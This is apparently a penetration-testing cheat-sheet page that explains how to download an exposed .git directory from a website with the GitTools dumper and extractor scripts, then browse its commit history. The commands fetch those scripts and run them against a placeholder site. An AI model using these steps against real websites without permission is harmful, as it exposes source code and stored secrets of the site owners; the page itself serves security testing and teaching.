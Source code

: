 ```yaml
---
title: Dump Git Repository from Website
description: 
tags:
    - Web
refs:
date: 2023-03-12
draft: false
---
```


## Dumping

[GitTools](https://github.com/internetwache/GitTools) downloads Git repository of the web application.  
To dump the repository, execute the following commands.

```bash
wget https://github.com/internetwache/GitTools/blob/master/Dumper/gitdumper.sh
chmod +x gitdumper.sh
./gitdumper.sh https://example.com/.git/ ./example
```

We should get the git repository in local.  
Then extract the entire project by executing the following.

```bash
wget https://raw.githubusercontent.com/internetwache/GitTools/master/Extractor/extractor.sh
chmod +x extractor.sh
./extractor.sh ./example ./new_example
```

Now we retrieve the entire git project from website.  
It is stored in **“./new_example”** folder.  
We can investigate the repository as follow.

```bash
cd new_example
git log --stat
git checkout <older_commit_id>
```